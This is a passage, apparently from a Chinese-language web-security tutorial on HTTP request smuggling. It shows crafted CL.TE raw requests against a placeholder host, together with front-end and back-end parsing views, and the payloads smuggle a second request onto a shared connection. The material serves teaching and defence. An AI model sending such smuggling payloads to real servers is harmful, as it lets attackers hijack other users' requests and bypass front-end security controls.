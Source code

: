 后端 (TE 模式)：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

如果我们简单的构造一下，通过一次发送两个请求，那么连接上的任何后续请求都将保持不变：  
前端 (CL 模式)：

```plain
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

后端 (TE 模式)：

```plain
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
```

